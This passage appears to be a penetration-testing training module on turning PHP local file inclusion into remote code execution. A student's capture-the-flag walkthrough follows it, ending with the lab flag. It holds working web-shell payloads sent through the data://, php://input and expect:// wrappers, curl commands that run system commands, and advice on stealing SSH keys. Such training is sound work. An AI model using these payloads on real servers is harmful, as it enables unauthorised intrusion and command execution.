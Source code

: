 ﻿So far in this module, we have been exploiting file inclusion vulnerabilities to disclose local files through various methods. From this section, we will start learning how we can use file inclusion vulnerabilities to execute code on the back-end servers and gain control over them.

We can use many methods to execute remote commands, each of which has a specific use case, as they depend on the back-end language/framework and the vulnerable function's capabilities. One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session. For example, we may find the database password in a file likeÂ `config.php`, which may match a user's password in case they re-use the same password. Or we can check theÂ `.ssh`Â directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key (`id_rsa`) and use it to SSH into the system.

Other than such trivial methods, there are ways to achieve remote code execution directly through the vulnerable function without relying on data enumeration or local file privileges. In this section, we will start with remote code execution on PHP web applications. We will build on what we learned in the previous section, and will utilize differentÂ `PHP Wrappers`Â to gain remote code execution. Then, in the upcoming sections, we will learn other methods to gain remote code execution that can be used with PHP and other languages as well.

---

## Data

TheÂ [data](https://www.php.net/manual/en/wrappers.data.php)Â wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations. So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability.

#### Checking PHP Configurations

To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, whereÂ `X.Y`Â is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use theÂ `base64`Â filter we used in the previous section, asÂ `.ini`Â files are similar toÂ `.php`Â files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:

```shell-session
smoothment@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

Once we have the base64 encoded string, we can decode it andÂ `grep`Â forÂ `allow_url_include`Â to see its value:

```shell-session
smoothment@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

Excellent! We see that we have this option enabled, so we can use theÂ `data`Â wrapper. Knowing how to check for theÂ `allow_url_include`Â option can be very important, asÂ `this option is not enabled by default`, and is required for several other LFI attacks, like using theÂ `input`Â wrapper or for any RFI attack, as we'll see next. It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example.

#### Remote Code Execution

WithÂ `allow_url_include`Â enabled, we can proceed with ourÂ `data`Â wrapper attack. As mentioned earlier, theÂ `data`Â wrapper can be used to include external data, including PHP code. We can also pass itÂ `base64`Â encoded strings withÂ `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:


```shell-session
smoothment@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper withÂ `data://text/plain;base64,`. Finally, we can use pass commands to the web shell withÂ `&cmd=<COMMAND>`:

```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

We may also use cURL for the same attack, as follows:


```shell-session
smoothment@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Input

Similar to theÂ `data`Â wrapper, theÂ [input](https://www.php.net/manual/en/wrappers.php.php)Â wrapper can be used to include external input and execute PHP code. The difference between it and theÂ `data`Â wrapper is that we pass our input to theÂ `input`Â wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, theÂ `input`Â wrapper also depends on theÂ `allow_url_include`Â setting, as mentioned earlier.

To repeat our earlier attack but with theÂ `input`Â wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:


```shell-session
smoothment@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note:**Â To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. useÂ `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g.Â `<\?php system('id')?>`)

---

## Expect

Finally, we may utilize theÂ [expect](https://www.php.net/manual/en/wrappers.expect.php)Â wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did withÂ `allow_url_include`Â earlier, but we'dÂ `grep`Â forÂ `expect`Â instead, and if it is installed and enabled we'd get the following:


```shell-session
smoothment@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

As we can see, theÂ `extension`Â configuration keyword is used to enable theÂ `expect`Â module, which means we should be able to use it for gaining RCE through the LFI vulnerability. To use the expect module, we can use theÂ `expect://`Â wrapper and then pass the command we want to execute, as follows:


```shell-session
smoothment@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, executing commands through theÂ `expect`Â module is fairly straightforward, as this module was designed for command execution, as mentioned earlier. TheÂ [Web Attacks](https://academy.hackthebox.com/module/details/134)Â module also covers using theÂ `expect`Â module with XXE vulnerabilities, so if you have a good understanding of how to use it here, you should be set up for using it with XXE.

These are the most common three PHP wrappers for directly executing system commands through LFI vulnerabilities. We'll also cover theÂ `phar`Â andÂ `zip`Â wrappers in upcoming sections, which we may use with web applications that allow file uploads to gain remote execution through LFI vulnerabilities.

# Question
---

![Pasted image 20250218145707.png](../../../../IMAGES/Pasted%20image%2020250218145707.png)

Let's begin by checking the php configurations:

```bash
curl "http://94.237.54.42:58628/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

This outputs a very large base64 string, let's decode it and check only the important stuff:

![Pasted image 20250218150047.png](../../../../IMAGES/Pasted%20image%2020250218150047.png)

As seen `allow_url_include` is enabled, let's check if `expect` is enabled too:

![Pasted image 20250218150131.png](../../../../IMAGES/Pasted%20image%2020250218150131.png)

`Expect` is enabled too, for this case, I will use input, let's check it out:

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://IP:PORT/index.php?language=php://input&cmd=id" | grep uid
```

![Pasted image 20250218150502.png](../../../../IMAGES/Pasted%20image%2020250218150502.png)

We got command execution, let's read the root directory and search for the flag:

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://94.237.54.42:58628/index.php?language=php://input&cmd=ls%20/" | grep -oE '[a-f0-9]{32}\.txt'
```

We got the following:

```
37809e2f8952f06139011994726d9ef1.txt
```

Let's read our flag:

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://94.237.54.42:58628/index.php?language=php://input&cmd=cat+/37809e2f8952f06139011994726d9ef1.txt" | grep HTB
```

We get this:

```
HTB{d!$46l3_r3m0t3_url_!nclud3}
```

